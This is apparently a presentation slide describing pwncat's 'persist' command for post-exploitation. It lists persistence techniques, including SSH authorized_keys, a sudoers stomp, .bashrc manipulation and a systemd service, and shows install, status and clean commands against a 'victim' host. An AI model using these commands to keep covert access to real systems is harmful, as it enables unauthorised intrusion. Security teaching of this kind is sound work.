

# persist --help
Automated Persistence Management
Easily install persistence on the target host
(local) pwncat$ persist --install -m authorized_keys
Currently supported
persistence mechanisms:

PAM degradation attack
SSH authorized_keys
user password change
/etc/sudoers stomp
.bashrc manipulation
systemd service

List installed persistence methods
(local) pwncat$ persist --status
 - authorized_keys as victim (local) installed
Remove installed persistence
# Remove all persistence methods
(local) pwncat$ persist --clean